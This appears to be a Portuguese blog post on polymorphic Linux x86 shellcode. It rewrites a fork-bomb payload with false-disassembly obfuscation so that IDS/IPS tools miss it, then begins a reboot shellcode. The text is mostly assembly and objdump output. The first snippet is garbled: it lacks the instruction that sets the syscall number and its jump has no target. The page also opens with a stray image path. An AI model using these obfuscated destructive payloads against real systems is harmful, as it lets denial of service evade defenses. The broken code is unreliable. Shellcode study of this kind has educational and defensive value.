 Original [here](http://shell-storm.org/shellcode/files/shellcode-214.php).

{% highlight asm %}
pop eax
int 0x80
jmp short
{% endhighlight %} [//]: # (_)

Temos acima um clássico fork [bomb](http://linux.die.net/man/2/fork) usando a
syscall \__NR_fork 2.

Modifiquemo-lo.

{% highlight asm %}
_start:
xor edi, edi
jmp $+3
db 0xe8
mov dl, 29
xchg edi, eax
sub eax, 27
int 0x80
jmp _start
{% endhighlight %} [//]: # (_)

Na versão mutated, utilizei o register EDI para salvar o valor 29 (\__NR_pause) e
posteriormente o copiar para EAX, quando então ele é subtraído, restando-lhe o
valor 2 da syscall fork. Fiz uso também da técnica de [false
disassembly](http://www.ouah.org/linux-anti-debugging.txt) (obfuscated assembly)
com a JMP sobre o byte E8 (opcode da instrução CALL). Vejam a saída do objdump.

{% highlight console %}
08048060 <_start>:
 8048060: 31 ff                 xor    edi,edi
 8048062: eb 01                 jmp    8048065 <_start+0x5>
 8048064: e8 b2 1d 97 83        call   8b9b9e1b <_end+0x83970dab>
 8048069: e8 1b cd 80 eb        call   f3854d89 <_end+0xeb80bd19>
 804806e: f1                    icebp
{% endhighlight %} [//]: # (_)

Se as ferramentas IDS/IPS não utilizarem uma análise profunda como a
[GetPC](http://skypher.com/wiki/index.php/Hacking/Shellcode/GetPC) ([Recursive
Traversal](http://resources.infosecinstitute.com/linear-sweep-vs-recursive-disassembling-algorithm/)),
a finalidade do shellcode não será identificada.

Original: 7 bytes<br>
Mutated: 15 bytes

*Next.*

##2nd shellcode - reboot

Original [here](http://shell-storm.org/shellcode/files/shellcode-639.php) (AT&T syntax).

{% highlight asm %}
mov    $0x24,%al
int    $0x80
xor    %eax,%eax
mov    $0x58,%al
mov    $0xfee1dead,%ebx
mov    $0x28121969,%ecx
mov    $0x1234567,%edx
int    $0x80
xor    %eax,%eax
mov    $0x1,%al
xor    %ebx,%ebx
int    $0x80
{% endhighlight %}